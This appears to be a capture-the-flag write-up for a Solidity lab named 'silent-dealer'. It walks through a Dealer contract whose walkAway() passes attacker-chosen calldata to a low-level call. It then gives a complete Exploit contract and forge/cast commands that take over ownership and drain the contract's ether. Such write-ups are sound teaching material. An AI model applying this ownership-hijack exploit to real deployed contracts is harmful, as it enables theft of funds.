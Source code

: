 Here we have 2 source code, one is `Setup.sol` and another one is `Dealer.sol`, in order to make `Setup.sol::isSolved()` returns true, we mush make the baalnce of `Dealer Contract` become 0 and the `owner` is no longer `Setup Contract`.

```solidity
contract Setup{
    Dealer public dealer;

    constructor() payable{
        dealer = new Dealer();
        dealer.joinGame{value: 50 ether}();
    }

    function isSolved() public view returns(bool){
        return address(dealer).balance == 0 && dealer.owner() != address(this);
    }

}
```

based on the inital setup, we know that the current owner is `Setup Contract` and it has 50 Ether. Let's take a tour to the `Dealer Contract` now,

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract Dealer{
    bool public readyToRig;
    address public owner;
    uint256 public rewardPool;
    mapping(address => uint256) public balanceOf;

    constructor() payable{
        owner = msg.sender;
    }

    function joinGame() public payable{
        require(msg.value >= 5 ether, "Must Deposit Minimum of 5 Ether!");
        balanceOf[msg.sender] += msg.value;
    }

    function bet(uint256 _amount) public{
        require(balanceOf[msg.sender] >= 5 ether, "Need 5 Ether to bet");
        require(_amount >= 2 ether, "Start with 2");
        rewardPool += balanceOf[owner];
        balanceOf[owner] = 0;
        rewardPool += _amount;
        balanceOf[msg.sender] -= _amount;
        readyToRig = true;
    }

    function startRiggedBet() public onlyOwner{
        require(readyToRig == true, "Pool is not filled!");
        balanceOf[owner] += rewardPool;
        rewardPool = 0;
        readyToRig = false;
    }

    function endWholeGame() public onlyOwner{
        uint256 toSend = balanceOf[owner];
        (bool sent, ) = owner.call{value: toSend}("");
        require(sent, "Ending Game Failed!");
    }

    function walkAway(address _to, bytes memory message) public {
        require(readyToRig == true, "You want to wal away empty handed?");
        uint256 leftAmount = balanceOf[msg.sender];
        balanceOf[msg.sender] -= leftAmount;
        (bool sent, ) = _to.call{value: leftAmount}(message);
        require(sent, "You can't run it seems.");
    }

    function changeOwner(address _newOwner) public payable{
        require(msg.sender == address(this), "Only Dealer can change owner");
        owner = _newOwner;
        balanceOf[owner] += msg.value;
    }

    modifier onlyOwner(){
        require(msg.sender == owner, "Only Owner can start bet!");
        _;
    }

    receive() external payable {
        if(msg.value == 5 ether){
            balanceOf[msg.sender] += msg.value;
        }else{
            rewardPool += msg.value;
        }
    }
}
```

We can see that it can receive ether with 2 functions, the `joinGame()` and `receive()`, the only difference is when we use joinGame, it require us to send at least 5 Ether, while the receive function has a logic when the amount is exactly 5 Ether only then it will be added to our balance, else it will be added to the rewardPool.

The `bet()` function allow us to put our moneny on the line, while we have the freedom to choose how many money we want to spend, the `owner` seems to go all-in, kinda weird right. Turns out, the next function `startRiggedBet()` will actually make the owner always win since it transfered all the rewardPool to the owner, and after that the owner could call `endWholeGame()` and just get all the money there.

We as a player also have an option, but that only available after we `bet()` some of our money, we can just `walkAway` with the money we have left and leave a message... oh well, we can leave a message that is being handled by `call()`, with that we can actually call `changeOwner()` and make ourselves the `owner`, thic could happened because if we parse a bytes that actually a function call, what's a function call? In Ethereum, they call a function by giving a 4 bytes or what often call function selector or signature, it's the first 4 bytes of `keccak256(functionName(args_type))`. 

So here is what are we going to do:

1. We `joingGame()` with 5 Ether
2. We `bet()` 3 Ether
3. We `walkAway()`, current rewardPool is 53 Ether, but we transfering the money to `dealer` by providing his address effectively giving it 2 Ether (our leftAmount) and parse a message containing the call of `changeOwner(address)` with the address pointing to our Exploit Contract
4. The current owner will be our Exploit Contract, we can just `startRiggedBet()`, taking all the rewardPool
5. Transfer all money to our pocket by calling `endWholeGame()`

The message that we are going to provide will be consisting the btyes of the `changeOwner()` selector and the address of our Exploit contract, it is constructed like this 

```test

// Default Construction
[4 bytes - selector] [32 bytes - Data/Args ] [can add more 32 bytes (SLOT) if needed]

// changeOwner(address) - newOwner address
0xa6f9dae1 000000000000000000000000 00648ca25a2e54b636c22cd5e1df72da69570aa2
|selector| |   padding 12 bytes   | |     newOwner Address - 20 bytes      |
|4 bytes | |-------------------------32 bytes / 1 SLOT---------------------|
```

How do we get `0xa6f9dae1`? Well we can use the build in function of `abi.encodeWithSignature(funcName(args-type), args-value)`, in our contract to parse this. OKay now that we understand what we need to do and how to do it, here is the full exploit to finally solve the lab.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Setup.sol";
import "./Dealer.sol";

contract Exploit{
    Dealer public dealer;
    Setup public setup;

    constructor(address _setup) payable{
        setup = Setup(_setup);
        dealer = Dealer(setup.dealer());
    } 

    function exploit() public{
        dealer.joinGame{value: 5 ether}();
        dealer.bet(3 ether);
        dealer.walkAway(address(dealer), abi.encodeWithSignature("changeOwner(address)",address(this)));
        dealer.startRiggedBet();
        dealer.endWholeGame();
    }

    receive() external payable { }

}
```

We just need to deploy the solver and give it 5 Ether to execute the `joinGame`, here is how you can do it.

```bash
// deploy the contract
forge create src/silent-dealer/$EXPLOIT_SOL:$EXPLOIT_NAME -r $RPC --private-key $PK --constructor-args $SETUP_ADDR --value 5ether

// Launch the Exploit
cast send -r $RPC --private-key $PK $EXPLOIT_ADDR "exploit()"
```

Now you should've solved the lab!